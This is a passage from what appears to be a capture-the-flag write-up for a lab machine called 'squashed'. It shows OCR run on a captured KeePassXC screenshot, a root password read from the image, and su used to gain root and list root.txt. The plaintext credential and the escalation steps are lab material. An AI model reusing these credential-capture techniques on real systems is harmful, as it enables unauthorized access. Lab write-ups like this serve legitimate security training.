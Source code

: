 Use OCR to get text (Failed)

```bash
┌──(root㉿kali)-[~/squashed]
└─# tesseract ok.png ok.txt    
Estimating resolution as 128

┌──(root㉿kali)-[~/squashed]
└─# cat ok.txt.txt       
Activities  @ KeePassXC + Jan16 15:42
Passwords - KeePassXC x

Database Entries Groups Tools Help

Cbd CK KE RHIOL SR /

~ Username Password URL Notes
root cah$mei7i

G/ )

General

Autotype Enabled
Searching Enabled
Expiration Never
```

Open Image

![](/assets/obsidian/bc2e92c23ff28287f4e926f2cc4fcca3.png)

- Creds : `root:cah$mei7rai9A`

```bash
alex@squashed:/home/alex$ su -
su -
Password: cah$mei7rai9A

ls
Desktop
Documents
Downloads
Music
Pictures
Public
root.txt
scripts
```